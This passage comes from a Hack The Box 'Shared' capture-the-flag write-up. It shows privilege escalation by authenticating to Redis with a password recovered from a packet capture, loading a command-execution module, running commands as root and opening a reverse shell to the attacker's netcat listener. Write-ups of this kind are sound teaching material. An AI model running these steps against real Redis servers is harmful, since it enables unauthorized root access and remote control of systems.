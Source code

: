 Checking the `pcap` file I got the password for the Redis server! `F2WHqJUz2WEz=Gqq`

<p align="center"><img alt="Screenshot of the Wireshark output" src="/assets/images/HackTheBox/Shared/wiresharkOutput.png"></p>

Now the only thing left is to load a custom module into Redis to start executing system commands as `root`. The module I will use is this: [n0b0dyCN/RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand){:target="_blank"}, just compile it with `make` in the attacker machine and move it to the victim. Now we can load it from Redis and the magic happens!

```bash
# In the victim machine
dan_smith@shared:~$ redis-cli -h 10.85.0.52
127.0.0.1:6379> auth F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379> MODULE LIST
(empty array)
127.0.0.1:6379> MODULE LOAD /home/dan_smith/module.so
OK
127.0.0.1:6379> system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
127.0.0.1:6379> system.rev 10.10.14.29 8080
""

# In my machine
┌──(kali㉿kali)-[~/Documents/HTB/Shared]
└─$ nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.10.14.29] from (UNKNOWN) [10.10.11.172] 49804
id
uid=0(root) gid=0(root) groups=0(root)
```

We are `root`! Grab the flag and call it a day!
